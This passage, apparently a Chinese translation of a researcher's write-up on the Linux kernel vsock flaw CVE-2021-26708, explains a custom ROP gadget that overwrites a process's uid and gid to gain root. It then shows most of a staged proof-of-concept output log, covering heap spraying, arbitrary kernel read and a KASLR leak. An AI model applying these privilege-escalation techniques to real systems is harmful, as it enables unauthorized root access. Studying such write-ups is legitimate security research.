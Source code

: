 <translate> 由於在vmlinuz-5.10.11-200.fc33.x86_64中找不到一個能滿足我需求的gadget，所以我自己進行了研究構造。

callback函數指針存儲一個ROP gadget 地址，RDI存儲callback函數的第一個參數，也就是ubuf_info本身的地址，RDI + 8指向ubuf_info.desc。 gadget 將ubuf_info.desc移動到RDX。現在RDX包含有效用戶ID和組ID的地址減一個字節。這個字節很重要：當gadget從 RSI向 RDX指向的內存中寫入消息1時，有效的 uid和 gid將被零覆蓋。重複同樣的過程，直到權限升級到root。整個過程輸出流如下： </translate>

    [a13x@localhost ~]$ ./vsock_pwn

    =================================================
    ==== CVE-2021-26708 PoC exploit by a13xp0p0v ====
    =================================================

    [+] begin as: uid=1000, euid=1000
    [+] we have 2 CPUs for racing
    [+] getting ready...
    [+] remove old files for ftok()
    [+] spray_data at 0x7f0d9111d000
    [+] userfaultfd #1 is configured: start 0x7f0d91121000, len 0x1000
    [+] fault_handler for uffd 38 is ready

    [+] stage I: collect good msg_msg locations
    [+] go racing, show wins:
        save msg_msg ffff9125c25a4d00 in msq 11 in slot 0
        save msg_msg ffff9125c25a4640 in msq 12 in slot 1
        save msg_msg ffff9125c25a4780 in msq 22 in slot 2
        save msg_msg ffff9125c3668a40 in msq 78 in slot 3

    [+] stage II: arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4d00
        kaddr for arb read: ffff9125c2035300
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c2035300 at 0x7f0d91120ff8
    [+] go racing, show wins:

    [+] stage III: arbitrary read vsock via good overwritten msg_msg (msq 11)
    [+] msgrcv returned 6096 bytes
    [+] Found sk_memcg ffff9125c42f9000 (offset 4712 in the leaked kmem)
    [+] Found owner cred ffff9125c3fd6e40 (offset 4888 in the leaked kmem)
    [+] Found sock_def_write_space ffffffffab9851b0 (offset 4736 in the leaked kmem)
    [+] Calculated kaslr offset: 2a000000

    [+] stage IV: search sprayed skb near sk_memcg...
    [+] checking possible skb location: ffff9125c42fa000
    [+] stage IV part I: repeat arbitrary free msg_msg using corrupted msg_msg
        kaddr for arb free: ffff9125c25a4640
        kaddr for arb read: ffff9125c42fa030
    [+] adapt the msg_msg spraying payload:
        msg_ptr 0x7f0d91120fd8
        m_type 1337 at 0x7f0d91120fe8
        m_ts 6096 at 0x7f0d91120ff0
        msgseg next 0xffff9125c42fa030 at 0x7f0d91120ff8
    [+] go racing, show wins: 0 0 20 15 42 11
    [+] stage IV part II: arbitrary read skb via good overwritten msg_msg (msq 12)
    [+] msgrcv returned 6096 bytes
    [+] found a real skb
